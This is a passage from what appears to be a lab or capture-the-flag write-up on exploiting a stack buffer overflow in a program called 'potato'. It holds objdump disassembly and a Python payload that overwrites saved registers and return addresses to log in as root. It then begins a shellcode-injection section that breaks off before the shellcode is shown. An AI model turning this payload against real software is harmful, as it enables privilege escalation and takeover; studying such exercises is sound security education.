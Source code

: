 The next code sequence to examine is the epilogue of `change_name()`
```bash
$ objdump -Sd potato | grep -A15 -w "Name changed"
    fprintf(stdout, "Name changed.\n");
...
 804b046:       90                      nop
 804b047:       8b 5d fc                mov    -0x4(%ebp),%ebx
 804b04a:       c9                      leave
 804b04b:       c3                      ret

```

In `0x804b047`, `%ebx` is assigned the content of `%ebp -0x4`, i.e. four bytes before the `%ebp`, the desired value
`0x804dff4` must be written, i.e. the offset w.r.t the overflown buffer is 54. In the next step, the content of
the four byte entities at offset 50 and at offset 58 (base pointer) are retrieved by running `change_name()` without
buffer overflow, which gives the values `0xffffccf1` and `0xffffcdf8`. The last step is done by overwriting the
address `handle_client()` returns from in order to prevent the application from terminating. That return address
is overwritten by the address of `handle_client()` itself. The resulting payload is then:

```python
# ...
root_user=0x8050370                 # gotten via p user_list->head->user
base_ptr=0xffffcdf8                 # base pointer of change_name (i.e. stack frame address)
login_setuser=0x804af24             # part of login() function setting the currently logged in user: func.c, line 163
global_ptr=0x804dff4                # global pointer from which session->logged_in_user is changed in login()/content of $ebx
restart_handle_client=0x0804965a    # overwritten return address of after handle_client() finishes

payload=b"\x41"*50              # input_name \
 + p32(0xffffccf1)              # local var \
 + p32(global_ptr)              # content of %ebx \
 + p32(base_ptr)                # recorded base pointer of change_name()
 + p32(login_setuser)           # second part of login() that sets the current user \
 + b"\x41"*252                  # stack frame of handle_client() \
 + p32(root_user)               # address of the root user \
 + b"\x41"*12                   # rest of stack frame of handle_client() \
 + p32(restart_handle_client)   # return address from handle_client() call, overwritten by the address of handle_client()
# ...
```

## execute shellcode

For executing shellcode, the code must be injected into the overflowing buffer, and the return
address must be overwritten by an address in that buffer. The shellcode must be small enough to
fit in the overwritten buffer, which is 50 bytes in length.
This shellcode https://www.exploit-db.com/shellcodes/49768 must me modified slightly so it can
be used in the potato2 context:

